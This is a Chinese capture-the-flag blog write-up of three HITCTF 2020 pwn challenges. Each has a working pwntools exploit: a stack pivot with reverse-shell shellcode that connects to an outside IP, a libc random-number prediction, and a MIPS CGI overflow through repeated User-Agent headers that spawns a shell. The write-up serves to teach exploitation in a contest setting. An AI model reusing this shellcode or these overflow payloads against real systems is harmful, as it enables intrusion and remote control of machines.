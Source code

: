 ```yaml
---
title: HITCTF 2020 三道 Pwn
date: 2020-12-09 00:00:02
categories:
- CTF/Pwn
tags: HITCTF mips
---
```


> 比较简单的Pwn，其中的MIPS Pwn是人生中拿到的第一个Pwn的一血，全是4哥的功劳。

总共五道题，做出来三道，题目全在这了：[pwn.zip](https://xuanxuanblingbling.github.io/assets/attachment/hitctf/sniff.pcap)

## dagongren1

媳妇博客：[hitctf2020之dagognren1](https://blingblingxuanxuan.github.io/hitctf2020-dagongren1.html)

- 漏洞：main函数scanf栈溢出
- 利用：栈迁移+反弹shell

```python
from pwn import *
context(arch="amd64",os='linux')
#myelf = ELF("./dagongren1")
#io = process(myelf.path)
io = remote("81.70.209.171",51601)

shellcode = "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\x95\x81\x23\x3d\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"

io.recv()
#gdb.attach(io,"b * 0x400736")
io.sendline('a'*32+p64(0x600E40)+p64(0x4006FC))
sleep(1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+shellcode)
io.interactive()
```

## lucky

- 漏洞：可预测的随机数
- 利用：本地预测随机数

```python
from pwn import *
from ctypes import *
context.log_level = "debug"
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(libc.time(0)/0xA+1)
myelf = ELF("./lucky")
#io = process(myelf.path)
io = remote("81.70.209.171",51700)
io.recv()
io.sendline("xuan")
for i in range(100):
    io.recv()
    io.sendline(str(libc.rand()))
io.interactive()
```

## supercgi

- 漏洞：多个`User-Agent`字段可以触发栈溢出（瞎发包测出来的，溢出点估计个大概，但原因比赛时没看明白）
- 利用：return 2 shellcode

> 开始用的ROP直接用程序函数打印flag，本地成功，远程失败，本地挂socat失败，原因不详，后来询问出题人，发现预期解是执行了`cat flag`，果断用shellcode

```python
from pwn import *
context(arch='mips',os='linux',endian='little')

buf =  b""
buf += b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
buf += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
buf += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
buf += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '''GET /index.html HTTP/1.1
User-Agent: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa//flag\x00
User-Agent: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
User-Agent: %s
User-Agent: %s
User-Agent: %s

'''% (
    ('b'*187+p32(0x412f20)+'a'*5+buf),
    ('c'*78+p32(0x412f20)),
    ('d'*179+p32(0x412f20))
    ) 
#myelf = ELF("./SuperCgi")
#io = process(["qemu-mipsel","-g","1234",myelf.path])
#io = process(["qemu-mipsel",myelf.path])
#raw_input()
io = remote("81.70.209.171",50603)
#io = remote("127.0.0.1",1111)
#raw_input()
#sleep(1)
io.send(payload)
io.interactive()
```